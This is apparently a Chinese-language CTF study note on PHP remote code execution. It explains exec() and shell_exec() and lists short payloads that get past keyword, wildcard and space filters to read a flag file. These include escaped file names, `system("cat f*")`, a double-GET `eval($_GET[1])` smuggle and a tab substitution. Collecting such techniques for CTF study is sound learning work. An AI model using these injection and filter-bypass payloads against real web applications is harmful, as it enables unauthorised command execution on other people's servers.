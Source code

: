 下面是想到什么写什么

- exec()函数

没有回显，接受两个参数，即：

exec(\$command, \$array)

第一个参数为命令，第二个参数为执行命令后的回显存放的数组

若直接打印返回值，**只会显示出第一个值**

- shell_exec()函数

没有回显，接受一个参数。即：

shell_exec(\$command)

返回值是回显。

- echo & print_r()

echo没有办法打印出数组的，若打印数组的话，会输出一个Array

## RCE姿势

### 过滤关键字

主要是针对例如flag被过滤又要执行flag.php类似的情况

通配符就不说了

可以用这种方式：`cat fla\g.php`

这种转义绕过的方式是Linux命令转义，php中的字符串没有转义，仍然是fla\g.php

以及`cat fla''g.php`，同上



### 通配符绕过

比如直接过滤flag等等。此处记录一下遇到的payload。

```php
//只过滤flag
?c=system("cat f*")
```

### 空格绕过

可以使用双重GET的方式绕过，当然post也可以。

```php
?c=eval($_GET[1]);&1=system("ls"); //注意这里还有个eval
```

可以使用tab绕过，因为空格可以用tab代替。

```php
?c=print_r(`tac\tf*`);
```
